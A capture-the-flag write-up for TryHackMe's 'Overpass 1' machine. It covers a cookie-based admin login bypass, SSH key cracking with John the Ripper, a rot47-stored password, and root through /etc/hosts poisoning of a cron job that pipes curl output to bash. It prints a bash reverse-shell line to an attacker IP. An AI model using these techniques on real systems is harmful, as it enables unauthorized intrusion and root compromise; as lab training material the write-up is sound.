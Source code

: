 ```yaml
---
title: Overpass 1
category: [infosec, write-ups]
tags: [overpass, tryhackme]
---
```


First in a series of three machines on [TryHackMe](https://tryhackme.com/).

> What happens when a group of broke Computer Science students try to make a
> password manager?
Obviously a perfect commercial success! 

## Goal 

Hack the machine and get the flags in `user.txt` and `root.txt`

## Initial recon 

Presented with a machine that appears to be running a web server, describing a
piece of password management software.

Running nmap ```bash nmap -sV -sV -oN ```

Reveals that this system is currently running an SSH and an HTTP server.

```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0) 
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
```
Looking at the website further, I see that the software is available for
download as a number of pre-compiled binaries, as a well as a link to the
source code, aswell as a build script. Looks like the software is written in
Go.

Inspecting the source for the homepage, we also find this comment. 

```html
<p>
Overpass allows you to securely store different passwords for every service,
protected using military grade 
<!--Yeah right, just because the Romans used it doesn't make it military grade, change this?--> 
cryptography to keep you safe.
</p> 
```

This comment suggests that we are probably looking at a Caesar cipher.

Taking a peek at the code confirms this, as we see that it encrypts passwords
using a rot47 function.
We also see this interesting line in the automated build script.

```bash echo "$(date -R) Builds completed" >> /root/buildStatus ```

The build script must be running as root. Maybe we can mess about with the date
binary?

Further investigating the website, we enumerate the following locations with
Gobuster

- /img
- /downloads
- /aboutus
- /admin
- /css

Checking the "/admin" route out, we're presented with an admin/password login.

## Weak client side authentication
Taking a look at login.js, However this is very weakly secured with some clientside JS. 

```javascript
...
if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
...
```

Setting the `SessionToken` value in our cookie to any value and refreshing the
page gets us access, and we're presented with an RSA Private key and a possible
user name of "James". We already know that the server is running SSH, so this
might be our way in, but we also are told that this key is secured with a
password, which we'll need to break.

## Cracking the private key

We convert the private_key we were given into a suitable format using
"ssh2john.py", followed by throwing rockyou.txt at it with johntheripper. This
pretty quickly gives us the password `james13`.

Logging in via SSH with these credentials we get our first flag in user.txt

We also get a todo.txt which mentions that james has recorded his password using the
overpass password manager. Sure enough, looking for a `.overpass` file reveals some
ciphertext. We could just use the overpass software, but we know its just rot47, so
we can just slap it into an online tool. This gives us another credential, which is
james' user password.

```
{"name":"System","pass":"saydrawnlyingpicture"}
```

## PrivEsc

Running linpeas.sh to check for PE vectors reveals a few things
- etc/hosts is writable by all users.
- We see there is a cron job running every minute as root, running a buildscript.sh file.

```
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

We see that the system is downloading the latest version of the build script
and piping it directly into bash. As we can write to the etc hosts file, we can
simply change the location of overpass.thm and point it to our own malicious
code.

## Getting root

I used [updog](https://github.com/sc0tfree/updog) to spin up a local webserver on port 80,
and placed a reverse shell script at the location of the build script.

```bash
# buildscript.sh
sh -i >& /dev/tcp/10.18.10.136/9999 0>&1
```

After waiting a minute for the cron job to run. I had a root shell and the final flag.
